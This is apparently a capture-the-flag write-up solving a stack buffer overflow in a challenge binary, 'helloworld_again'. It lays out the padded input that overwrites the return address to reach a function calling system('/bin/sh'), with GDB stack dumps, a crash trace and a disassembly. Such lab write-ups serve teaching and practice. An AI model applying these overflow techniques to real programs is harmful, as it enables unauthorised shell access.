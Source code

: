 ## Some Notes
1. The function helloworld is stored at 0x40125b.
2. rbp - 0x20 (32) is the address of the char s[32] and it's the argument passed to __isoc99_scanf().
3. If the return value of strlen(s) is larger than 32, then the process will exit with 0.
4. If the return value of strlen(s) is below or equal to 32, then if the input string isn't equal to "helloworld", then the process will exit with 0.
5. The solution of 3. & 4. is to input "helloworld\0" + (40 - 11) * 'a' + target address (0x401263).

### Some problems encountered
```
0x007ffeb307b2c0│+0x0000: "helloworld"   ← $rax, $rsp, $rdi
0x007ffeb307b2c8│+0x0008: 0x616161616100646c ("ld"?)
0x007ffeb307b2d0│+0x0010: 0x6161616161616161
0x007ffeb307b2d8│+0x0018: 0x6161616161616161
0x007ffeb307b2e0│+0x0020: 0x6161616161616161     ← $rbp
0x007ffeb307b2e8│+0x0028: 0x0000000040125b  →  <helloworld+0> endbr64 
0x007ffeb307b2f0│+0x0030: 0x007f07faf25600  →  0x007ffeb307b3d8  →  0x007ffeb307c3fa  →  "./helloworld_again"
0x007ffeb307b2f8│+0x0038: 0x007ffeb307b3d8  →  0x007ffeb307c3fa  →  "./helloworld_again"
```
Successfully store the address of helloworld in the return address ($rbp + 8)  
Therefore, /bin/sh is assumed to be executed.  
However, it will cause SIGSEGV.
```
[#0] Id 1, Name: "helloworld_agai", stopped 0x7f05d1e3ee3c in do_system (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f05d1e3ee3c → do_system(line=0x402008 "/bin/sh")
[#1] 0x40126f → helloworld()
[#2] 0x7f05d2024600 →  <_dl_argv+0> call 0x7f05d01d8c1b
[#3] 0x7ffe1b4616e8 → cli
```
***Solution: overflow the return address with 0x401263 instead of 0x40125b***  
Because the overflowed rbp may point to unavailable address or address in kernel address space, jump to 0x401263 directly is a better way to execute the shell.  
```
000000000040125b <helloworld>:
  40125b:	f3 0f 1e fa          	endbr64 
  40125f:	55                   	push   rbp
  401260:	48 89 e5             	mov    rbp,rsp
  401263:	48 8d 3d 9e 0d 00 00 	lea    rdi,[rip+0xd9e]        # 402008 <_IO_stdin_used+0x8>
  40126a:	e8 51 fe ff ff       	call   4010c0 <system@plt>
  40126f:	90                   	nop
  401270:	5d                   	pop    rbp
  401271:	c3                   	ret
```

**Solved**
